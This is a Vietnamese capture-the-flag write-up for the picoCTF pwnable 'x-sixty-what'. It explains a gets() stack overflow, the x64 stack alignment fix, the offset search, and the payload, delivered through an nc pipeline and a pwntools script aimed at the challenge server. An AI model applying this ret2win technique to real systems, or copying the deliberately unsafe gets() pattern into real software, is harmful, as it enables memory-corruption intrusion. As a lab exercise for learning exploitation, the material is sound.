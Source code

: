 # x-sixty-what

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi, stack alignment

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}

```

b) Nhận xét

- Ta chỉ cần ghi đè địa chỉ trả về vào hàm flag, nhưng nếu vậy thì stack sẽ không được căn chỉnh (xem write-up bài clutter-overflow) do câu lệnh assembly đầu tiên của hàm là push rbp. Khi push rbp thì rsp cũng bị thay đổi thêm 8 byte, do đó rsp không chia hết  cho 16 nữa.

![image.png](image.png)

## 2. Ý tưởng khai thác

- Thay vì nhảy vào câu lệnh đầu tiên (0x401236) thì ta nhảy vào lệnh thứ ba (sau lệnh push), khi đó rsp vẫn chia hết cho 16 do hàm trước đó là hàm vuln đã căn chỉnh stack sẵn. Địa chỉ của câu lệnh thứ ba là 0x40123b

![image.png](image%201.png)

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Dùng công cụ để tìm offset, lần này thay vì quan sát RIP thì ta quan sát RBP vì RBP không thay đổi trong quá trình thực hiện hàm và từ RBP có thể xác định được offset với Return address vì RBP luôn nằm ở dưới Return address (xem cấu trúc stack ở các bài trước)

![image.png](image%202.png)

![image.png](image%203.png)

- Offset đối với RBP là 64, vậy offset đối với Return address là 64 + 8 = 72 byte

b) Bước 2: Viết payload

- Payload cần dùng là: 72 ký tự padding +  “\x3b\x12\x40”

c) Bước 3: Truyền payload

- Cách 1: truyền bằng pipe:
  + Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3\x3b\x12\x40
  + Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3\x3b\x12\x40"; cat) | nc saturn.picoctf.net 56006
```

![image.png](image%204.png)

- Cách 2: dùng file thực thi
  + Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 56006)
payload = b'a'*72 + p64(0x40123b)

p.sendline(payload)
p.interactive()
```

![image.png](image%205.png)

## 4. Kết luận

- Với những bài x64 thì chú ý stack alignment, nếu muốn dùng ret2win thì nên nhảy vào câu lệnh sau push
